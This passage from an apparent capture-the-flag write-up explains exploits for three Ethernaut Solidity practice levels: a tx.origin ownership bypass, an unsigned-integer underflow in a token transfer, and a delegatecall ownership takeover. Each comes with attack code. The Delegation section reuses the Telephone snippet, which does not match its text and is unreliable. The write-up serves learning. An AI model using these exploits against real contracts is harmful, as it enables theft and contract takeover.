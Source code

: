 This level is very easy. You win if you can craft a transaction where `tx.origin != msg.sender` which is true if you call the `changeOwner` function from a smart contract.
Then `msg.sender` will be the helper contract address while `tx.origin` always refers to the original transaction sender (`tx.from`).

```solidity
function attack() external payable {
    challenge.changeOwner(tx.origin);
}
```

## 5. Token

This challenge involves a custom tiny token contract. The goal is to increase our balance.
There is a supposed-to-be overflow check that checks if `require(balances[msg.sender] - _value >= 0);` but we are dealing with unsigned integers which renders this check useless.
To win, we can use an accomplice to send our deployer tokens.

```javascript
const [eoa, accomplice] = await ethers.getSigners();
const eoaAddress = await eoa.getAddress();
// contract uses unsigned integer which is always >= 0, overflow check is useless
tx = await challenge.connect(accomplice)
    // we start with 20 tokens, make sure eoa's balance doesn't overflow as well
    .transfer(eoaAddress, BigNumber.from(`2`).pow(256).sub(`21`));
await tx.wait();
```

## 6. Delegation

There's a delegation contract that forwards any calls using `delegatecall` in its fallback function to a `delegatee` contract.
The thing to know about the `delegatecall` instruction is that the call is executed in the **caller's** context.
Therefore the `delegatee` accesses the `delegator`'s `owner` storage variable and `msg.sender`.
All we need to do is call the `pwn` function on the `delegator contract`.

```solidity
function attack() external payable {
    challenge.changeOwner(tx.origin);
}
```

A very interesting side note is that the gas estimation failed here. The reason for this is that the delegator code does not revert if the inner call failed because it ran out of gas.

> The catch about gas estimation is that the node will try out your tx with different gas values, and return the lowest one for which your tx doesn't fail. But it only looks at your tx, not at any of the internal calls it makes. This means that if the contract code you're calling has a try/catch that causes it not to revert if an internal call does, you can get a gas estimation that would be enough for the caller contract, but not for the callee. - [Falsehoods that Ethereum programmers believe](https://gist.github.com/spalladino/a349f0ca53dbb5fc3914243aaf7ea8c6)

```js
const delegateeAbi = ['function pwn()']
let iface = new ethers.utils.Interface(delegateeAbi)
const data = iface.encodeFunctionData(`pwn`, [])

tx = await eoa.sendTransaction({
  from: await eoa.getAddress(),
  to: challenge.address,
  data,
  gasLimit: BigNumber.from(`100000`),
})
```
